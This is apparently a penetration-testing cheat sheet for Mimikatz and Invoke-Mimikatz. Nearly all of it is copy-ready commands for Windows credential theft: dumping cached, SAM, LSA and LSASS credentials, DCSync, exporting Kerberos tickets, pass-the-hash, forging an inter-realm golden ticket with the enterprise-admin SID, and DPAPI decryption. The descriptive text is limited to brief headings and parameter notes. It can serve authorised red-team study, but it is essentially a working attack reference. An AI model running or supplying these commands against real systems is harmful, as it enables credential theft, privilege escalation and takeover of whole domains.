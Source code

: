 ### Source 
https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-Mimikatz.ps1  
https://github.com/gentilkiwi/mimikatz  

### Elevate to system ("token::revert" to drop token)
```
Invoke-Mimikatz -Command '"token::elevate"'
```

### Dump credentials
```
Domain Cached Credential - "lsadump::cache"
Security Hives - "lsadump::sam"
Machine Accounts "lsadump::secrets"
Local Security Authority Substem Service - "sekurlsa::logonPasswords full"
Data Protection API - "vault::cred"
```

### Execute DCSync for single user
```
Invoke-Mimikatz -Command '"lsadump::dcsync /domain:<domain> /user:<user>"'
```

### Export all tickets from memory
```
Invoke-Mimikatz -Command '"kerberos::list /export"'
```

### Pass the hash
```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<ntlmHash>"'
```

### Inter realm golden ticket - can be done offline, since domain controller connection is not necessary (/enind = validity period 60 minutes, /user can be fictitious, -519 is the SID of enteprise admin)
```
Invoke-Mimikatz -Command '"kerberos::golden /user:<attackerAccount> /domain:<compromisedDomain> /sid:<sidCompromisedDomain> /sids:<sidTargetDomain>-519 /krbtgt:<ntlmHashKrbTgt> /endin:60"'
```

### Dump credentials from lsass dump
```
mimikatz.exe
mimi> sekurlsa::minidump <file>.dmp
mimi> sekurlsa::logonPasswords full
```

### Dump dpapi credentials
```
Invoke-Mimikatz -Command '"dpapi::sccm /unprotect /masterkey:key"'
```

### Write output of command to file
```
mimi> log <file>.txt
```

